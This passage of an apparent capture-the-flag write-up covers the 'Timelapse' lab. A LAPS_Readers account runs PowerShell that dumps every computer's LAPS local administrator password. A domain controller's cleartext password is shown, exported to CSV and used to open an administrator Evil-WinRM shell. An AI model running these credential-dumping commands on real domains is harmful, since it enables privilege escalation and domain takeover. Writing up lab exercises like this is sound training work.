 ```console
Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

> With LAPS, the DC manages the local administrator passwords for computers on the domain. It is common to create a group of users and give them permissions to read these passwords, allowing the trusted administrators access to all the local admin passwords.
>
> ```console
> https://docs.h4rithd.com/windows/privilageesc-windows
> 
> Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
> $Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
> $computers | Export-Csv -path c:\windows\temp\laps.csv" -NoTypeInformation
> ```

```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> $Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> $Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

Name  DnsHostName        ms-Mcs-AdmPwd            ms-Mcs-AdmPwdExpirationTime
----  -----------        -------------            ---------------------------
WEB01
DEV01
DB01
DC01  dc01.timelapse.htb r5j7S@OS@vT(k.x3G8O0/S71 133536886067357881


*Evil-WinRM* PS C:\Users\svc_deploy\Documents> $computers | Export-Csv -path laps.csv -NoTypeInformation
```

```console
└─╼$ evil-winrm -i $IP -u administrator -p 'r5j7S@OS@vT(k.x3G8O0/S71' -S

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```
